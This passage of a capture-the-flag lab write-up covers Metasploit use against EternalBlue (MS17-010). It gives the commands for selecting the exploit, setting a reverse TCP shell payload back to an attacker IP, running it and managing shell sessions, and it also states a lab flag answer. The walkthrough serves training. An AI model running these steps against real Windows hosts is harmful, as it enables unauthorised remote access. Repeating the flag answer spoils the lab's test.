 Show payloads for EternalBlue:

```bash
use exploit/windows/smb/ms17_010_eternalblue
show payloads
```

Select payload:

```bash
set payload generic/shell_reverse_tcp
show options
```

Important:

* **LHOST** → attacker IP
* **LPORT** → port to listen on

Run exploit:

```bash
set lhost 10.10.186.44
set rhosts <TARGET_IP>
exploit
```

Output → successful exploitation with Windows shell opened.


#### Working with Sessions

Background a session:

```
CTRL+Z
Background session 1? [y/N] y
```

List sessions:

```bash
sessions
```

Interact with session:

```bash
sessions -i 1
```

---

### 🔹 Questions and Exploits

**Q. What is the content of the flag.txt file? → THM-5455554845**

Steps:

```bash
msfconsole
search ms17_010
use exploit/windows/smb/ms17_010_eternalblue
set rhosts <TARGET_IP>
set lhost <YOUR_IP>
exploit
```
